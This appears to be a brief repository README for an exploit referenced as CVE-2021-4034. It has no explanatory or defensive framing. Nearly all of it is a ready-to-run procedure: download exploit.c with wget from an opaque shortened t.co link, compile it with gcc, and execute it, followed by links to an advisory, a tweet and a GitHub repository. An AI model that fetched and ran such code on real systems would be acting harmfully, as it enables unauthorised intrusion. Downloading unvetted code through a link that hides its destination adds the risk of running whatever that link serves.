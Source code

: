 ### download exploit
```
wget https://t.co/uwLR65WjDY -O exploit.c
```

### compile
```
gcc exploit.c
```

### execute
```
./a.out
```

### References
https://www.openwall.com/lists/oss-security/2022/01/25/11  
https://twitter.com/bl4sty/status/1486095005605318659  
https://github.com/berdav/CVE-2021-4034  

